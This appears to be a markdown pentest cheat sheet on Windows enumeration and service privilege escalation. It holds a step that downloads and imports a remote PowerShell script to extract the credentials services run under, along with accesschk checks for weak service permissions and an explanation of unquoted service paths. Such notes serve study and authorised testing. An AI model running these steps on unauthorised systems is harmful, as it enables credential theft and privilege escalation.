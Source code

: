 #### From Windows

 - Display shares: `net share`

### Logs
 
 - Computer Management / Event Viewer

### Useful commands

 - Scheduled tasks: `schtasks`
 - Alias (powershell): `Get-Alias`
 - Remote Desktop Access with RDP: `xfreerdp /v:<targetIp> /u:Usernmae /p:Password`
 - Group Policy Editor: `gpedit` 

### Services

 - Use services.msc or `tasklist /svc` to find misconfigured or vulnerable services. (`tasklist` lists all running processes)
 - Find a service by name `get-service | ? {$_.DisplayName -like 'Druva*'}`
 - Retrieve creds used to run services as another user
```
curl -o Get-ServiceCredential.ps1 https://gist.githubusercontent.com/jborean93/58bba8236fac313e3d4b3970b8213cb6/raw/9541195ff04525cd9333c5e8d33e22e19c739c3f/Get-ServiceCredential.ps1
Import-Module .\Get-ServiceCredential.ps1
Get-Service # to find service name
Get-ServiceCredential -Name ServiceName
```
 - View running services (powershell): `Get-Service | ? {$_.Status -eq "Running"} | select -First 2 |fl`
 - Create/Delete/... services: `sc.exe`
 - Query service information: `sc.exe qc wuauserv`
 - View Discretionary Access Control List (DACL)  - ref for decrypt: Security Descriptor Definition Language (SDDL).

```
sc sdshow wuauserv

D:(A;;CCLCSWRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)S:(AU;FA;CCDCLCSWRPWPDTLOSDRCWDWO;;;WD)
```
 - View DACL (powershell): `Get-ACL -Path HKLM:\System\CurrentControlSet\Services\wuauserv | Format-List`

 - lsass.exe	The Local Security Authentication Server verifies the validity of user logons to a PC or server. It generates the process responsible for authenticating users for the Winlogon service.
 - svchost.exe with RPCSS	Manages system services that run from dynamic-link libraries (files with the extension .dll) such as "Automatic Updates," "Windows Firewall," and "Plug and Play." Uses the Remote Procedure Call (RPC) Service (RPCSS).
 - svchost.exe with Dcom/PnP	Manages system services that run from dynamic-link libraries (files with the extension .dll) such as "Automatic Updates," "Windows Firewall," and "Plug and Play." Uses the Distributed Component Object Model (DCOM) and Plug and Play (PnP) services.

 - `accesschk.exe /accepteula -quvcw AService`, check for who has `SERVICE_ALL_ACCESS`
 - **Unquoted Service Path**: for a service with the path: C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe, Windows will look at: C:\Program, C:\Program Files, C:\Program Files (x86)\System, ... If you can create a file at C:\Program.exe or C:\Program Files (x86)\System.exe, the program will be run
 - `accesschk.exe /accepteula "<USERNAME>" -kvuqsw hklm\System\CurrentControlSet\services` : find Weak Service ACLs. If you can modify `KEY_ALL_ACCESS`, you can overwrite the execution path in service
